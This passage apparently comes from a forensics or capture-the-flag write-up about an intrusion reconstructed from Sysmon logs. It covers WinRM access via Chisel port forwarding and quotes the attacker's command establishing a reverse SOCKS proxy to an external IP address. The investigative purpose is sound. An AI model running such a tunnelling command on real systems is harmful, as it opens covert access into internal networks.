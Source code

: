 As we found from the sysmon log earlier that the attacker successfully connected to infected system via WinRM after port forwarding with Chisel then we can see that the attacker actually used `netstat -ano -p tcp` to list all TCP connection which we can see that port 5985 which is the default port for WinRM was running on the local.

```
5985
```

>The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection? <br>
*Format: Remove the double quotes from the log.*

![b3a842c95492870da53cff4ecdf22c8c.png](/resources/b3a842c95492870da53cff4ecdf22c8c.png)

```
C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
```

>What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

![dac43eace7caff1df9296617cf9d6c94.png](/resources/dac43eace7caff1df9296617cf9d6c94.png)
